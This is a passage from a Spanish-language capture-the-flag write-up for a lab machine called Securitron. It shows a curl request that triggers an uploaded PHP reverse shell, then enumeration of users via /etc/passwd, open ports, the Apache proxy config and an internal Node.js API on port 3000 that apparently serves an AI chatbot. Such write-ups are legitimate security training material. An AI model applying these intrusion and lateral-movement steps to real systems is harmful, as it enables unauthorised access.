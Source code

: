 ```bash
curl http://admin19-32.securitron.thl/uploadImage/Profile/avatar.php
```

![revshell](/assets/securitron/image-24.png)

¡Bien, ya estamos dentro!

## Movimiento lateral

Hacemos el tratamiento de la tty e intentamos elevar privilegios.

Tenemos los usuarios `root` y `securitybot`.

```bash
cat /etc/passwd | grep bash
```

![users](/assets/securitron/image-25.png)

Miramos los puertos TCP que encontramos en la máquina.

```
ss -tuln | grep tcp
```

![alt text](/assets/securitron/image-26.png)

El puerto `80` es el del servicio web que hemos explotado, el puerto 3306 es el de la BD que también ya hemos explotado.

El puerto `3000` no lo conocemos, lo investigamos.

El puerto `3000`, al mirar el fichero `/etc/apache2/sites-available/000-default.conf`, podemos intuir que es la API que expone la IA utilizada al principio, ya que tiene un proxy configurado que apunta al endpoint de este puerto.

![virtualhost 000-default.conf](/assets/securitron/image-27.png)

Lo investigamos un poco más y observamos que hay un proceso que corre por el usuario `securitybot`, que parece de Node.js.

```
ps -aux | grep securitybot
```

![alt text](/assets/securitron/image-28.png)

No tenemos permisos para ver el fichero `/home/securitybot/.local/bin/bot/index.js`, pero sí que podemos ejecutar Node.js mediante la ruta `/home/securitybot/.nvm/versions/node/v22.5.1/bin/node`.

Miramos qué podemos encontrar en el puerto 3000. El endpoint /api nos da información en JSON sobre la API. Utilizamos `curl` y `node` para mostrar esta información de forma legible.

```bash
curl http://localhost:3000/api | /home/securitybot/.nvm/versions/node/v22.5.1/bin/node -p "JSON.stringify( JSON.parse(require('fs').readFileSync(0) ), 0, 1 )"
```
